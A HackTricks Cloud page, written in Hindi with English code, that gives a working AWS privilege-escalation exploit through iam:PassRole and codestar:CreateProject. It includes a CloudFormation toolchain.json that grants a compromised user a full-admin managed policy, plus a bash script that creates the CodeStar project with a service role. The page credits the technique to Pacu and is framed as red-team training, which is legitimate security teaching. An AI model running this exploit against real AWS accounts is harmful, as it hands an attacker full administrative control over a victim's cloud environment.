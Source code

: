 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इन अनुमतियों के साथ आप **एक codestar IAM भूमिका का दुरुपयोग** कर सकते हैं ताकि **मनमाने कार्य** को **cloudformation टेम्पलेट** के माध्यम से किया जा सके।

इसका लाभ उठाने के लिए आपको एक **S3 बकेट बनानी होगी जो** हमले वाले खाते से **सुलभ हो**। एक फ़ाइल अपलोड करें जिसका नाम `toolchain.json` हो। इस फ़ाइल में **cloudformation टेम्पलेट का दुरुपयोग** होना चाहिए। निम्नलिखित का उपयोग एक प्रबंधित नीति को आपके नियंत्रण में उपयोगकर्ता पर सेट करने और **उसे व्यवस्थापक अनुमतियाँ देने** के लिए किया जा सकता है:

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

इसके अलावा **इस** `empty zip` फ़ाइल को **बकेट** में **अपलोड** करें:

{% file src="../../../../.gitbook/assets/empty.zip" %}

याद रखें कि **दोनों फ़ाइलों के साथ बकेट पीड़ित खाते द्वारा सुलभ होना चाहिए**।

दोनों चीजें अपलोड करने के बाद, आप अब **शोषण** करने के लिए **कोडस्टार** प्रोजेक्ट बनाने की प्रक्रिया शुरू कर सकते हैं:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
यह एक्सप्लॉइट **इन विशेषाधिकारों के लिए Pacu एक्सप्लॉइट** पर आधारित है: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) इसमें आप एक भूमिका के लिए एक व्यवस्थापक प्रबंधित नीति बनाने के लिए एक भिन्नता पा सकते हैं, न कि एक उपयोगकर्ता के लिए।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

